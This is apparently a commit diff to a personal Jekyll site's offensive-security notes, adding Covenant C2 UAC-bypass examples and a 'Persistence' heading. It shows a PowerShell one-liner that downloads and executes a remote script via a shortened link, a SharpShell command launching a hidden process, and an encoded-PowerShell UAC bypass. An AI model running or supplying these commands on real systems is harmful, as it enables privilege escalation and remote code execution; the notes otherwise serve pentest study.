

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 3045 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -177,7 +175,16 @@
 powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
 ```
 
+Covenant has `BypassUACCommand` and `BypassUACGrunt` Tasks which can be used
 
+```cpp
+SharpShell /code:"var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\Taskmgr.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var taskmgr = new System.Diagnostics.Process { StartInfo = startInfo }; taskmgr.Start(); return taskmgr.Id.ToString();"
+
+BypassUACCommand cmd.exe "/c powershell -enc [...snip...]"
+```
+
+
+# Persistence
 
 ### Classic Startup folder
 
````
Also changed, not shown: other parts of notes.md (+0 -2 lines).
